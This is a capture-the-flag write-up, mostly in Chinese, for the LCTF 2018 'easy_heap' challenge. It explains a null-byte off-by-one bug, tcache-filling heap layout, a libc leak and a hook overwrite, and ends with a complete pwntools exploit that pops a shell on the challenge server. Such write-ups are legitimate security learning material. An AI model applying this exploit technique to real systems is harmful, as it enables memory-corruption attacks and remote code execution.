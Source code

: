 ```yaml
---
title: 'LCTF2018:Easy_heap'
date: 2018-11-20 19:02:38
tags: pwn tcache
---
```

About tcache & null byte off 
<!--more-->
# Analysis
[附件][1]
tcache 了解的太少...
做了好久...现在看起来也挺简单的...可能最近太浮躁没法静下来思考...

主要功能是add,show,和delet

用的是libc2.27有tcache

# 漏洞
```arm
v4 = __readfsqword(0x28u);
  i = 0;
  if ( size )
  {
    while ( 1 )
    {
      read(0, &ptr[i], 1uLL);
      if ( size - 1 < i || !ptr[i] || ptr[i] == 10 )
        break;
      ++i;
    }
    ptr[i] = 0;
    ptr[size] = 0;
  }
  else
  {
    *ptr = 0;
  }
  return __readfsqword(0x28u) ^ v4;
```
其他地方看不出啥洞...这里有个很明显的ptr[size] = 0;
null byte off
但是这题又很刻薄。。。
* malloc定长malloc(0xF8uLL)
* read时遇到0x00或者0x0a会停止...
//以上两点导致无法自己留pre_size
//每个chunk都是0x100导致只能off_by_one只能改pre_inuse位

然后是思路
* 利用null_byte_off 改pre_inuse 那么主要有两个问题-->
```arm
1.per_size
2.unlink 的assert
```
* 第一个问题解决方案:填满tcache 然后利用chunk的合并留下pre_size
```
例如已经填满tcache之后
只要再次free三个chunk那么就会留下0x100在第一个chunk尾部，0x200在第二个chunk尾部....
这样我们就有了per_size
```
* 第二个问题的解决办法:
```sh
仅有A在unsorted bin
null byte off 掉C
free C 
```

* 所以总的思路：
```sh
#partI set pre_size
malloc 10个chunk
free 掉7个 填充tcache
依次free掉剩下三个合并成一个0x300的unsorted bin
malloc 10个chunk
#partI over


#partII Fengshui
#方便起见我们程那三个有pre_size的chunk为ABC 
free B 进tcache 保护起来
free 6个chunk填满tcache
free A 进unsorted bin
malloc 6 个chunk
malloc B  做null byte off
free c
# 成功over lap

# part III Tcache atk  
泄露
hijack hook
```

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("and?\n> ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("size \n> ",str(size))
	p.sendafter("tent \n> ",data)
def show(idx):
	cmd(3)
	p.sendlineafter("dex \n> ",str(idx))
def free(idx):
	cmd(2)
	p.sendlineafter("dex \n> ",str(idx))
#p=process("./easy_heap")
p=remote("10.21.13.100",10003)
#context.log_level='debug'
for x in range(10):
	add(0xf7,'\n')
for x in range(7):
	free(9-x)

free(0)
free(1)
free(2)
#set the presize
for x in range(7):
	add(0xf7,'\n')

add(0x10,'\n')#7
add(0x10,'\n')#8
add(0xf7,'\n')#9
# keep the presize and begin to free
free(8)# protec 
for x in range(6):
	free(x)
#fill tcache
free(7)#into tcache
for x in range(6):
	add(0x10,'\n')
add(0xf8,'\n')#7
for x in range(7):
	free(x)
free(9)
####over laped
for x in range(7):
	add(0x2,'\n')
add(0x2,'\n')#8
show(7)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
log.warning(hex(base))
add(0x20,'\n')#9
free(1)
free(2)
free(7)
free(0)
free(9)
add(0x10,p64(0x7ffff7dcfc30-0x7ffff79e4000+base))#0
add(0x10,'\n')#1
add(0x10,'\n')#2
one=base+0x10a38c
add(0x10,p64(one))
p.sendlineafter(">",'1')
p.sendline("clear")
#gdb.attach(p)
p.interactive("nier>>>>")
```

# Review 
仔细想想思路挺顺的一题....最近太浮躁了...修身养性修身养性


[1]:https://github.com/n132/Watermalon/tree/master/LCTF_2018/easy_heap